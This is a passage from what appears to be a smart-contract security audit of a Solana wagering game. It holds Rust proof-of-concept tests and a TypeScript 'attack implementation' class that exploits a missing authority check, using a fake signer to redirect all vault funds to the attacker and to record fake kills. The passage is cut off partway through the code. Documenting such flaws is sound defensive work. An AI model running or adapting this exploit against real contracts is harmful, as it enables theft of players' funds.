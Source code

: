 ```rust

        // Should fail but succeeds due to missing authority check
        assert!(result.is_ok());

        // Funds transferred based on fake authority decision
        assert_eq!(vault_balance_after, 0); // All funds stolen
    }

    #[test]
    fn test_unauthorized_kill_recording() {
        let attacker = Keypair::new();
        let mut game_session = create_test_game_session(1000);

        // Attacker manipulates game statistics
        let ctx = create_kill_context(game_session, attacker);

        // Fake kill recording
        let result = record_kill_handler(
            ctx,
            "session_123".to_string(),
            0, // Killer team
            attacker.pubkey(), // Attacker as killer
            1, // Victim team
            legitimate_player_pubkey // Legitimate player as victim
        );

        // Should fail but succeeds - attacker inflates own stats
        assert!(result.is_ok());
        assert_eq!(game_session.team_a.player_kills[0], 1); // Fake kill recorded
    }
}
```

### Real-World Attack Implementation
```typescript
class AuthorityBypassAttacker {
    private attackerKeypair: Keypair;

    async bypassAuthority(sessionId: string): Promise<void> {
        // 1. Create fake authority account
        const fakeAuthority = Keypair.generate();

        // 2. Use fake authority to distribute winnings
        await this.wagerProgram.methods
            .distributeWinnings(sessionId, 0) // Declare team 0 winner
            .accounts({
                gameSession: this.getSessionPDA(sessionId),
                gameServer: fakeAuthority.publicKey, // ❌ Fake authority
                vault: this.getVaultPDA(sessionId),
                // Set attacker as all winners on team 0
                winner1: this.attackerKeypair.publicKey,
                winner2: this.attackerKeypair.publicKey,
                winner3: this.attackerKeypair.publicKey,
                winner4: this.attackerKeypair.publicKey,
                winner5: this.attackerKeypair.publicKey,
            })
            .signers([fakeAuthority]) // No validation of authority legitimacy
            .rpc();

        // 3. All vault funds transferred to attacker
    }

    async manipulateGameStats(sessionId: string): Promise<void> {
```